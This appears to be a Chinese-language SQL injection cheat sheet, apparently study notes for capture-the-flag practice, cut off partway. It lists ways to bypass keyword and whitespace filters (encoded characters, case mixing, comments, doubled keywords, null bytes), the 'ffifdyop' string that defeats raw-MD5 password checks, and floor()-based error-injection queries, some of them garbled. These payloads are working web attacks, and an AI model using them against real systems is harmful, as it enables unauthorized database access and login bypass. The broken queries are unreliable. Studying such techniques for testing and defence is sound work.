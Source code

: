 1.转换

windows可能会有问题

| %09       | tab平行   |
| --------- | --------- |
| %0a       | 新建一行  |
| %0c       | 新的一页  |
| %0d       | return    |
| %0b       | tab垂直   |
| ***%a0*** | space空格 |

2.注释绕过

3.括号绕过

把`有值`的语句`括起来`



#### union select 被过滤

```
1.大小写绕过
2.url编码
3.注释绕过
4.双写混淆
5.空字节 union select=>%00 union select
```



#### md5绕过

ffifdyop

```
select * from 'admin' where password=md5($pass,true)

pass=ffifdyop
经过md5加密后：276f722736c95d99e921722cf9ed621c

再转换为字符串：'or'6<乱码>  即  'or'66�]��!r,��b
```



### 

### 报错注入

#### floor报错注入

```mysql
select count(*),floor(rand(0)*2)x  from security.user group by 
select count(*),concat(database(),floor(rand(0)*2))x from security.users group by x
select * from security.users where id=1 and (selectcount(*),concat(database(),floor(rand(0)*2)x) from security.users group by x)
..


```

